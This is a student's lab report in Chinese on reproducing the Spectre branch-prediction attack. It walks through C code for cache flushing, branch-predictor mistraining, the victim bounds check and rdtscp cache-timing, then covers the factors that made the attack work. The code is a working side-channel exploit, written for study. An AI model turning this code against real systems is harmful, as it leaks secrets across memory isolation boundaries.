

# Spectre 攻击验证

2018011365 张鹤潇

### 实验环境

WSL2 Ubuntu 20.04

Intel(R) Core(TM) i7-8750H

### 关键步骤和源码

将 `secret` 地址减去 `spy` 地址得到 `malicious_x`，为使用 `spy` 越界读取敏感信息做准备，

```c
size_t malicious_x = secret - (char*)spy;
int len = strlen(secret);
while (--len >= 0) { // Attacking
    readMemoryByte(malicious_x++);
}
```

在 `readMemoryByte` 中对 `malicious_x` 发起攻击，循环 1000 轮，在每轮攻击中，首先将 `cache_set` 清出 Cache，

```c
for (i = 0; i < 256; i++)
    _mm_clflush(&cache_set[i * 512]);
```

接下来开始训练分支预测器：使用正确的索引调用 `victim_function` 五次，然后使用 malicious_x 调用 `victim_function` 一次。

```c
training_x = tries % SPY_SIZE;
for (j = 0; j < 5; j++) {
    for (k = 0; k < 5; k++) {
        victim_function(training_x);
    }
    victim_function(malicious_x);
}
```

`victim_function` 的实现如下，每次调用前要清除在缓存中的 `spy_size`.

```c++
void victim_function(size_t x)
{
    _mm_clflush(&SPY_SIZE);
    for (volatile int z = 0; z < 100; z++) {
    } /* 确保 cache 页全部换出 */
    if (x < SPY_SIZE) {	// 分支预测攻击目标
        temp &= cache_set[spy[x] * 512];
    }
}
```

根据 cache_set 内容的读取时间判断其是否在缓存中，这部分技巧较复杂，

```c
for (i = 0; i < 256; i++) {
    mix_i = ((i * 167) + 13) & 255;
    addr = &cache_set[mix_i * 512];

    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD && mix_i != spy[tries % SPY_SIZE]) {
        results[mix_i]++;
    }
}
```

循环 1000 轮，`results` 中值最高的项就是攻击得到的敏感数据。

### 影响因素分析

本次实验的难度很大，细节极多，实验指导书提供的信息不足，我参考 [SpectrePoC (github.com)](https://github.com/crozone/SpectrePoC/blob/master/spectre.c) 才完成了实验。

再发起攻击之前，要向 `cache_set` 中写入数据以屏蔽 OS 的 COW 机制。

```c
for (size_t i = 0; i < cache_set_size; i++)
    cache_set[i] = 1;
```

关闭编译器优化，防止其影响关键代码的运行，编译选项指定 `-O0`.

在 `victim_function` 中，将 `SPY_SIZE` 清出缓存后插入一段忙等，保证缓存页全部换出。

在 `spy` 数组前后定义两个 64 bytes 的 `unused` 数组，其长度超过 L1D cache line 的大小，以屏蔽缓存的成行读写对攻击的影响。

这些困难与硬件结构高度相关，让我充分体会到了硬件安全的复杂。

### 实验结果

如图所示，利用 Spectre 漏洞正确读取了敏感字符串。



